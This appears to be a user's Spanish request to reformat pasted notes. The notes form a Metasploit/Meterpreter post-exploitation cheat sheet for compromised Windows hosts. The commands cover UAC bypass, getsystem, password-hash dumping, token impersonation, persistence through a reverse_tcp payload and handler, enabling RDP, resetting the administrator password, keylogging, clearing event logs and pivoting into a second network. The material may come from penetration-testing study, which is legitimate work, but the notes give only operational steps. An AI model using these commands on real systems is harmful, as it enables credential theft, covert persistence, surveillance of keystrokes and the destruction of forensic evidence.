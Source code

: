 









haz lo mismo pero con esto:
Elevar Privilegios Bypass UAC (User Access Control - Impersonation) -Quieres que esta aplicacion haga cambios en el sistema
getsystem -En una session de meterpreter
search bypassuac - injection (Bypass en memoria)
hashdump -Volvado de hashes, solo se puede con una cuenta de administrador

Token Impersonatio con Icognito - Escalar privilegios
meterpreter> load incongnito 
list_tokens -u
impersonate_token "Nombre\Token"
hasdump -Falla porque necesitamos igrar a un proceso con el token (permisos) de administrador
migrate 3344
hasdump

PERSISTENCIA

Persistencia e Windows

search platform:windows persistence_Service
set payload windos/x64/meterpreter/reverse_tcp
set SESSION 1
search multi/handler
set LHOST, set PAYLOAD windos/x64/meterpreter/reverse_tcp
exploit -Ya teniendo un multi handler corriendo, se va a poder ejecutar el meterereter unicamente corriendo el multi/handler (se inicia siempre con el mismo payload, mismo Lport y run)

Habilitar RDP en host vulnerado
search enable_rdp
net user administrator nuevapassword123 -Cambiar la contraseña , desde una cuenta con mas altos privilegios


Windows KeyLogin - Capturar las teclas presionadas
meterpreter> keyscan_start
keyscan_dump

Limpiar Events Logs - Luego de una explotacion
meterpreter> clearev
rm archivo.txt


PIVOTING
Hay que haber vulnerado a la victima 1 para poder pivotear a la victima 2 
ipconfig -Identificar Subnet
run autoroute -s SubnetComunVictima2/20
search portscan/tcp -Los escaneos que se pueden hacer a la victima 2 son los que estan en metasploit y ya

Reenvio de Puertos
meterpreter> portfwd add -l PuertoLocal -p PuertoVictima2 -r IPVictima2
ej: db_nmap -sSV -p PuertoLocal localhostIP
